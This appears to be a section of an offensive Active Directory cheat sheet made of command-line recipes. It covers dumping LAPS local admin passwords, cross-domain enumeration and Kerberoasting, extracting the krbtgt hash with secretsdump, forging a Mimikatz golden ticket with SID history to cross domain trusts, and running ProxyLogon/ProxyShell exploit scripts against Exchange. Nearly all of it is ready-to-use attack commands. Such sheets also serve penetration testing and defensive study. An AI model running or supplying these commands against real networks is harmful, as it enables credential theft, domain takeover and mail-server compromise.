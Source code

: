 ### **💊 LAPS Bypass & Abuse**

#### **Linux:**
```bash
# LAPSDumper
python3 laps.py -u lowpriv -p password -d domain.com -dc-ip DC_IP
python3 laps.py -u lowpriv -p password -d domain.com -dc-ip DC_IP -l

# CrackMapExec LAPS
crackmapexec ldap DC_IP -u lowpriv -p password --laps
```

#### **Windows:**
```powershell
# PowerView LAPS
Get-DomainComputer | Where-Object {$_."ms-mcs-admpwdexpirationtime" -ne $null} | select name,ms-mcs-admpwd,ms-mcs-admpwdexpirationtime

# LAPSToolkit
Get-LAPSComputers
Find-LAPSDelegatedGroups
Find-AdmPwdExtendedRights
```

### **🔄 Advanced Trust Attacks**

#### **Cross-Domain Attacks**
```bash
# Linux - Get foreign domain info
GetADUsers.py -all -dc-ip FOREIGN_DC_IP foreign.domain.com/user:password
GetUserSPNs.py -dc-ip FOREIGN_DC_IP foreign.domain.com/user:password -request

# Trust key extraction
secretsdump.py domain.com/Administrator@DC_IP -just-dc-user "krbtgt" -just-dc-ntlm
```

#### **Windows - Cross-Domain**
```powershell
# PowerView Cross-Domain
Get-DomainTrust -Domain domain.com
Get-DomainUser -Domain foreign.domain.com
Get-DomainForeignUser -Domain foreign.domain.com
Get-DomainForeignGroupMember -Domain foreign.domain.com

# Mimikatz Trust Attack
kerberos::golden /user:Administrator /domain:child.domain.com /sid:S-1-5-21-xxx-xxx-xxx /sids:S-1-5-21-yyy-yyy-yyy-519 /krbtgt:HASH /ticket:trust.kirbi
```

### **📧 Exchange Attacks**

#### **ProxyLogon/ProxyShell**
```bash
# ProxyLogon
python3 proxylogon.py exchange.domain.com Administrator password

# ProxyShell
python3 proxyshell.py -t https://exchange.domain.com -u lowpriv@domain.com -p password -c "whoami"
```
